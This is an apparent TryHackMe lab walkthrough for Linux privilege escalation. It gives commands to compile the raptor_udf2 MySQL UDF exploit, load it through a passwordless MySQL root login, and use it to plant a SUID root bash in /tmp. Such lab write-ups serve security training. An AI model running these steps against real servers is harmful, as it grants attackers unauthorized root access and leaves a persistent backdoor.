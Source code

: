 # Linux PrivEsc

**Room Link:** [https://tryhackme.com/room/linuxprivesc](https://tryhackme.com/room/linuxprivesc)



## Deploy the Vulnerable Debian VM

**Kali**

```
ssh user@$VICTIM
Password: password321
```

## Service Exploits

**Victim**

```
cd /home/user/tools/mysql-udf
```

Compile the raptor\_udf2.c exploit code using the following commands

**Victim**

```
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

Connect to the MySQL service as the root user with a blank password

**Victim**

```
mysql -u root
```

Execute the following commands on the MySQL shell to create a User Defined Function (UDF) "do\_system" using our compiled exploit.

**Victim - mysql**

```
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```

Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission.

**Victim - mysql**

```
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```
